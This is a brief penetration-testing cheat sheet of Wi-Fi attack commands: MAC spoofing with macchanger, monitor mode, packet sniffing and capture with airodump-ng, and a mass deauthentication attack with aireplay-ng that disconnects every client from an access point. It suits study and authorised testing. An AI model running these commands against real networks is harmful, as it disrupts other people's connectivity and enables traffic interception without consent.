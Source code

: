 # Network Penetration Testing
### Change MAC-address
```
> ifconfig [interface] down
> macchanger -m [MAC] [interface]
> ifconfig [interface] up
```

### Enable monitor mode

Monitordevice has different name than interface

`> airmon-ng start [interface]`

OR

Monitordevice has the same name than interface
```
> ifconfig [interface] down
> iwconfig [interface] mode monitor
> ifconfig [interface] up
```

# Pre Connection Attacks
### Start general packet sniffing

```
> airodump-ng [interface]

Example:

> airodump-ng mon0
```


### Start targeted packet sniffing

```
> airodump-ng --channel [channel] --bssid [bssid] --write [file-name] [interface]

Example: 

> airodump-ng –channel 6 –bssid 11:22:33:44:55:66 –write out mon0
```
### Deauthentication attacks
#### To disconnect a device from the AP to let it reauthenticate 

To de-authenticate all clients in a specific network
```
> aireplay-ng --deauth [number of packets] -a [AP] [INTERFACE]

Example: 

> aireplay-ng --deauth 1000 -a 11:22:33:44:55:66 mon0
```
